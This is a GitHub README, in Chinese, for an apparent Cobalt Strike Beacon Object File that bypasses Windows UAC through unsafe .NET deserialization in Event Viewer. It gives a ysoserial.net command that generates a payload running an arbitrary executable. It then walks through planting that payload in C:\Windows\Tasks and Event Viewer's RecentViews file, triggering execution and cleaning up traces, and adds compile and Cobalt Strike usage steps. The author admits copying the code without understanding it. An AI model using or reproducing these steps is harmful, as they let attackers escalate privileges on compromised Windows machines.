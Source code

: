 # EventViewerBypassUacBof
EventViewer Bypass Uac Bof

## 主要参考了如下作者的代码：
https://github.com/Octoberfest7/EventViewerUAC_BOF

https://github.com/netero1010/TrustedPath-UACBypass-BOF

https://github.com/CsEnox/EventViewer-UACBypass

其实不太清楚.net反序列化漏洞的原理，完全复制-粘贴。

## 执行流程
Bypass过程利用了Unsafe .Net Deserialization in Windows Event Viewer ，程序主要完成了如下流程：

1、使用ysoserial.net（https://github.com/pwntester/ysoserial.net）生成payload（.\ysoserial.exe -o base64 -f BinaryFormatter -g DataSet -c "forfiles /c C:\Users\test\Desktop\TESTdir\9999.exe" >b64.bin）

2、使用convertbin.py将payload转化为最终payload文件

3、上传payload文件至C:\Windows\Tasks\

4、拷贝文件并将文件命名为：%LOCALAPPDATA%\Microsoft\Event Viewer\RecentViews

5、启动EventViewer，这将导致EventViewer去执行payload文件

6、清理payload文件

## 使用方法：

1、编译：
x86_64-w64-mingw32-gcc -o EventViewerUAC.x64.o -c main2.c

2、CS加载 EventViewerUAC_gg.cna

3、EVUAC Payload Env （Env 通过执行 shell set |findstr \"LOCALAPPDATA\" 获得）

<img width="1480" alt="image" src="https://user-images.githubusercontent.com/37012218/180590626-d96d505b-98fa-4072-a9e9-40f19f51eb84.png">
